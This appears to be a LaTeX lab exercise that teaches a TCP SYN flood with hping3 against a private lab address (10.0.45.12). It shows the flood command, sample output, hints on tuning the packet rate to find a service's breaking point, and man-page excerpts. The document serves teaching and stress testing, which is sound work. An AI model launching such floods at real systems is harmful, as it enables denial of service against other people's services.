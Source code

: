 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100%
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}

You can try different ports with TCP flooding, try port 22/tcp or HTTP(S) port 80/tcp and 443/tcp


{\bf Hints:}\\
The tool we use can do a lot of different things, and you can control the speed. You can measure at the server being attacked or what you are sending, commonly using ifpps or such programs can help.

By changing the speed we can find out how much traffic is needed to bring down a service. This measurement can then be re-checked later and see if improvements really worked.

This allows you to use the tool to test devices and find the breaking point, which is more interesting than if you can overload, because you always can.
\begin{alltt}\footnotesize
-i --interval
       Wait  the  specified  number  of  seconds or micro seconds between sending each packet.
       --interval X set wait to X seconds, --interval uX set wait to X micro seconds.  The de‐
       fault  is  to  wait one second between each packet. Using hping3 to transfer files tune
       this option is really important in order to increase transfer rate. Even  using  hping3
       to  perform  idle/spoofing  scanning  you should tune this option, see HPING3-HOWTO for
       more information.

--fast Alias for -i u10000. Hping will send 10 packets for second.

--faster
       Alias for -i u1. Faster then --fast ;) (but not as fast as your computer can send pack‐
       ets due to the signal-driven design).

--flood
       Sent  packets  as fast as possible, without taking care to show incoming replies.  This
       is ways faster than to specify the -i u0 option.
\end{alltt}
\end{document}

